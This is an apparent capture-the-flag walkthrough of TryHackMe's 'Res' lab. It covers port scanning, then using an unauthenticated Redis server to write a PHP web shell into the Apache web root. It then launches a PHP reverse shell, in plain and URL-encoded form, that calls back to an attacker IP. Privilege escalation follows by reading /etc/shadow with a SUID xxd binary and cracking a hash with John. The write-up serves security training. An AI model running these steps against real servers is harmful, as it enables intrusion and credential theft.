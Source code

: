 ```bash
# PLATFORM          . THM
# CTF NAME          . Res
# DESCRIPTION       . Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/res
```

```
sudo nmap -sSVC -T5 -p- 10.10.132.240 -oN res
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

6379/tcp open  redis   Redis key-value store 6.0.7
```

**PORT 80**

- Default apache installation page.

**PORT 6379**

- I used `redis-cli` to authenticate to the redis server. 

```
redis-cli -h 10.10.132.240
```

- By default, `redis` doesn't require authentication. However, I tried running the command `AUTH default default` and I got `OK` as an answer, so I assumed I was authenticated.

- After some googling around, I found out that you can use redis to write to files.

- This made me think that, considering we have apache running, we might be able to write a reverse shell and access it via the webserver running on port 80.

- To do this, I had followed the next steps:

```
10.10.132.240:6379> config set dir /var/www/html
OK
10.10.132.240:6379> config set dbfilename shell.php
OK
10.10.132.240:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.132.240:6379> save
```

- It's worth mentioning that this is working purely because `/var/www/html` is writable.

- Next, I've accessed the webshell by going to `http://IP/shell.php?cmd=`

- I used a URL-Encoded PHP reverse shell to connect back to my listener

```
php -r '$sock=fsockopen("IP",3131);exec("sh <&3 >&3 2>&3");'
```

```
http://IP/shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22IP%22%2C3131%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

- After stabilising the shell, I started looking for privilege escalation vectors.

```
find / -type f -perm -04000 -ls 2>/dev/null

...
262073     20 -rwsr-xr-x   1 root     root        18552 Mar 18  2020 /usr/bin/xxd
...
```

- We have the SUID bit set for the `xxd` binary. This can be used to read from files that we don't have access to.

```
/usr/bin/xxd "/path/to/file" | xxd -r
```

- The user flag located in `/home/vianka/user.txt` is already readable.
- We can use `xxd` to read the root flag from `/root/root.txt`.

- However, if we read the `/etc/shadow` file and copy the hash of user `vianka`, we can easily crack the password, so we can escalate our privileges.

```
/opt/john/run/john hash 

b{redacted}1       (vianka)
```

- A simple `sudo -l` reveals that we have full access on the system.

```
User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

```
vianka@ubuntu:~$ sudo su

root@ubuntu:/home/vianka# 
```

